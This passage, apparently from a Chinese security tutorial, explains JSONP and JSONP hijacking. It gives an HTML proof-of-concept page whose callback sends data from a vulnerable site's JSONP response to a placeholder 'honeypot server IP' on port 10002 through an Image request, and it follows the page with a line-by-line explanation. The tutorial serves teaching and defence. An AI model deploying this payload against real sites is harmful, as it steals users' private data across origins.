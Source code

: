 ## （2）JSONP

JSONP 是 JSON with padding (填充式 JSON 或参数式 JSON)，是一种为了跨域获取资源而产生的一种技术手段。这是一种非官方的协议。  
**JSONP 实现跨域的原理**：  
同源策略限制了不同源的站点通过 ajax 获取信息，但是 web 页面调用 is 文件则不受跨域的影响并且凡是拥有 src 属性的标签都可以跨域请求，如 scriptimg 等标签。JSONP 正是利用这种原理去实现了跨域请求。  
JSONP 劫持从 JSONP 的原理中可以看出这种方式实现了数据的跨域访问，如果网站 B 对网站 A 的 JSONP 请求没有进行安全检查直接返回数据，则网站 B 便存在 JSONP 漏洞，网站 A 利用 JSONP 漏洞能够获取用户在网站 B 上的数据。  
这种漏洞与 CSRF 非常相似，只不过 CSRF 只是发送数据去达到一定的目的，而 JSONP 劫持是为了获取返回的敏感数据

```plain
// jsonp 演示页面
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>JSONP EXP 跨域测试</title>
</head>
<body>
<script>
function test(json){
new Image().src="http://蜜罐服务器IP:10002/" + JSON.stringify(json) // 攻击机准备接收的地址和端口
//alert(JSON.stringify(json))
}
</script>
<script src="有 jsonp 漏洞的网站 url callback=test"></script> 
</body>
</html>
```

下面是对代码的逐行解释：

-   <!DOCTYPE html>：声明这是一个 HTML5 文档。
-   `<html lang="en">`：定义 HTML 文档，并设置文档的根语言为英文。
-   `<head>`：定义文档的头部信息，这些信息不会直接显示给用户。
-   <meta charset="UTF-8">：设置文档的字符集为 UTF-8。
-   <title>JSONP EXP 跨域测试</title>：设置文档的标题。
-   </head>：结束文档头部。
-   `<body>`：定义文档的主体部分，即用户可以在浏览器中看到的内容。
-   `<script>`：定义一个 JavaScript 脚本块。
-   function test(json){：定义一个名为 test 的函数，该函数接收一个名为 json 的参数。
-   new Image().src="[http://蜜罐服务器IP:10002/](http://xn--ip-fr5c86lx7zzi7agol:10002/)" + JSON.stringify(json)：创建一个新的 Image 对象，并设置其源为一个 URL，该 URL 由蜜罐服务器的 IP 地址和端口号以及经过 JSON.stringify 方法处理后的 json 参数组成。这样做的目的是将获取的数据发送到蜜罐服务器。注意：这段代码将数据公开发送，这在实际环境中是非常危险的，因为它可能导致敏感信息的泄露。
-   alert(JSON.stringify(json))：这是一个弹出框，用于显示从存在 JSONP 漏洞的网站获取的数据。这里使用 JSON.stringify(json) 将数据转换为字符串形式以在弹出框中显示。
-   }：结束 test 函数。
-   `<script src="有jsonp漏洞的网站url callback=test"></script>`：通过`<script>`标签引入一个外部 JavaScript 文件。这个文件应该来自一个存在 JSONP 漏洞的网站，其中的 callback 参数指定了处理从该网站返回的数据的函数（在这里是 test 函数）。这意味着当该外部脚本加载时，它会调用 test 函数，并将从该网站获取的数据作为参数传递给它。
-   `</body>`：结束文档主体。
-   `</html>`：结束 HTML 文档。
